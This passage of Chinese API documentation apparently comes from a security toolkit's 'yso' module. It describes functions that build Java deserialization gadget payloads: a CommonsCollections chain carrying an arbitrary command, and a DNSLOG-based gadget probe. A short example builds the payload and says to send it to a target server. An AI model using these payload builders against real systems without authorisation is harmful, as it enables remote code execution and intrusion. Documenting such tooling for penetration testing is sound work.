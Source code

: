
#### 定义

`GetCommonsCollectionsK4JavaObject(cmd string) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| cmd | `string` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |


### GetFindGadgetByDNSJavaObject

#### 详细描述
GetFindGadgetByDNSJavaObject 通过 DNSLOG 探测 CLass Name，进而探测 Gadget。

使用预定义的FindGadgetByDNS序列化模板，然后在序列化对象中替换预设的URL占位符为提供的URL字符串。

url：要在生成的Java对象中设置的URL字符串。

返回：成功时返回构造好的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
url, token, _ = risk.NewDNSLogDomain()
javaObject, _ = yso.GetFindGadgetByDNSJavaObject(url)
gadgetBytes,_ = yso.ToBytes(javaObject)
使用构造的反序列化 Payload(gadgetBytes) 发送给目标服务器
res,err = risk.CheckDNSLogByToken(token)

	if err {
	  //dnslog查询失败
	} else {
	  if len(res) &gt; 0{
	   // dnslog查询成功
	  }
	}

```


#### 定义

`GetFindGadgetByDNSJavaObject(url string) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| url | `string` |   |
